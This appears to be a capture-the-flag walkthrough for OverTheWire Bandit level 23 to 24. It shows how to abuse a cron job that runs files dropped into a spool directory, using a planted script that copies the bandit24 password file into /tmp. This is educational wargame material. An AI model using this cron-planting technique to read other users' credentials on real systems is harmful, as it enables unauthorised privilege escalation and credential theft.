

### Bandit Level 23 → Level 24

#### **Goal**

Gain access to the password for Bandit Level 24.

#### **Commands**

`chmod`, `cron`, `crontab`

-----

### **Walkthrough**

1.  **Examine the Cron Job**: First, view the contents of the `cronjob_bandit24` file in `/etc/cron.d/` to see what command is being executed.

    ```bash
    bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
    ```

2.  **Analyze the Script**: The output will show that the `bandit24` user executes a script at `/usr/bin/cronjob_bandit24.sh`. View the script's contents.

    ```bash
    bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
    ```

    The script changes its directory to `/var/spool/bandit24/foo/` and looks for files owned by the `bandit23` user. If it finds one, it executes it with a 60-second timeout, then deletes it.

3.  **Create an Exploit Script**: Create a temporary shell script in `/tmp/` that will read the `bandit24` password and save it to a file you can access.

    ```bash
    echo "cat /etc/bandit_pass/bandit24 > /tmp/my_password_file" > /tmp/getpass.sh
    chmod +x /tmp/getpass.sh
    ```

4.  **Move the Script and Wait**: Copy your script to the directory monitored by the cron job. Wait a minute for the cron job to run your script and create the password file.

    ```bash
    cp /tmp/getpass.sh /var/spool/bandit24/foo/
    ```

5.  **Retrieve the Password**: After the cron job has run, the password will be in the `/tmp/my_password_file` file.

    ```bash
    bandit23@bandit:~$ cat /tmp/my_password_file
    ```
**Reference Screenshot for this level:**

